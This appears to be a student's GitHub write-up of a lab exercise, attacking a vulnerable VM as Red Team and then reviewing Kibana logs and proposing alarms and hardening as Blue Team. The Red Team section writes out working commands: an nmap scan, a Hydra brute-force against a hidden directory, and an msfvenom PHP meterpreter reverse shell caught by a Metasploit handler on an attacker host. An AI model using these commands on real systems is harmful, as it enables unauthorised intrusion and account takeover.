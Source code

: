 # Red-Team-vs-Blue-Team

For this project, I worked on a Red Team vs. Blue Team scenario in which I played the role of both pentester and SOC analyst.
As the Red Team, I attacked a vulnerable Virtual Machine within my environment, and ultimately gained root access to the machine. As Blue Team, I used Kibana to review logs taken from when I attacked the vulernable machine. I then used the logs to extract hard data and visualizations for their report.
I created mitigation measures for each exploit that I've successfully performed.

## Red Team


-	I ran the command ***ifconfig*** to find the IP address of the capstone machine, which was the machine we were attacking.

![image](https://user-images.githubusercontent.com/92223941/167281224-191e434b-d94f-4a4b-a6fd-3515a2e9c02d.png)

-	I then ran a Nmap command ***nmap -sV 192.168.1.105*** to find the open ports

-	I then went into the website to see to find any important directories. I was able to find a hidden directory at 192.168.1.105/company_folders/secret_folder that you need to login into as Ashton.

-	On the Kali machine, I ran the Hydra tool with the command ***hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get http://192.168.1.105/company_folders/secret_folder*** on it that used brute force into the wordlist and found the password for it.

-	I then logged into the secret folder and found a personal note in it.

-	After reading the personal note, I copied the hashed text that was was left for Ryan's account and put it on https://crackstation.net/ and cracked it on the website.


-	Now that I have username and password for Ryan, I can now create my php shell to put on their website. I did so by doing this command ***msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=80 -f raw > shell.php***

-	I then uploaded the shell into the webdav directory.

-	I then ran Metasploit to listen to the shell on the target machine, so I can access it via remote. The commands I ran were:

	-	***msfconsole***
	-	***use exploit/multi/handler***
	-	***set payload php/meterpreter/reverse_tcp***
	-	***set LHOST 192.168.1.90***
	-	***set LPORT 80***
	-	***show options***
	-	***run***

-	I then clicked on the shell on the website after I ran the Metasploit and I was able now to now get remote access to the target machine.

-	I then ran the command ***shell*** and went back to the root directory and then listed the directories and found the flag.



## Blue Team

-	Analysis: Identifying the Port Scan
	-	The port scan occurred on April 6 12 am
	-	162,551 packets were sent from the machine 192.168.1.90
	-	The massive rise in the network traffic indicates that it is a Port Scan

-	Analysis: Finding the Request for the hidden directory
	-	The requested occurred for this URL path on April 6 12 and there were 99,596 requests made to it
	-	The file that was requested was the secret_folder and it contained the hashed password for Ryan's account and the web address to login into

-	Analysis: Uncovering the Brute Force Attack
	-	99,596 requests were made during the brute force attack to get into the secret folder directory
	-	99,577 requests were made before the attacker found out the password

-	Analysis: Finding the WebDAV Connection
	-	60 requests were made to this directory
	-	Shell files were requested



## Blue Team Proposed Alarms and Mitigation Strategies

-	Mitigation: Blocking the Port Scan
	-	Alarm
		-	An alert for port scanning can be set to the threshold of 10
	-	System Hardening
		-	The configurations I would set up on the host to mitigate the port scans would be to put up a firewall and close ports 80 and 22. Make sure the server doesnâ€™t response to ICMP requests.

-	Mitigation: Finding the Request for the Hidden Directory
	-	Alarm
		-	I would make an alarm when request for secret folders and files are made and set threshold to 1
	-	System Hardening
		-	To block unwanted access on the host I would not make secret folders accessible for public access. Make complicated passwords and reset password every 3 months.


-	Mitigation: Preventing Brute Force Attacks
	-	Alarm
		-	To detect future brute force attacks, I would set an alert after 3 bad login attempts send a text message or email to the user and manager about activity, after 5 bad logins attempts, reset the password.
	-	System Hardening
		-	I would close ports 22 and 80. Add firewall, encrypt, and hash profiled information as configuration to block brute force attacks on host

-	Mitigation: Detecting the WebDAV Connection
	-	Alarm
		-	I would set the alarm for alert for number of times a file requested in webdav by non-trusted ip address and threshold to 10 to detect future access to this directory
	-	System Hardening
		-	The configuration that can be set on the host to control access is Multi factor login, change password every few months, only specific users have access to WebDav.

-	Mitigation: Identifying Reverse Shell Uploads
	-	Alarm
		-	I would set the alarm for alert for number of times for any shell upload with the threshold of 1 to detect future file uploads
	-	System Hardening
		-	The configuration that can be set on the host to block file upload would be close the ports, strong firewall. Set remote execution to block on the server.



 
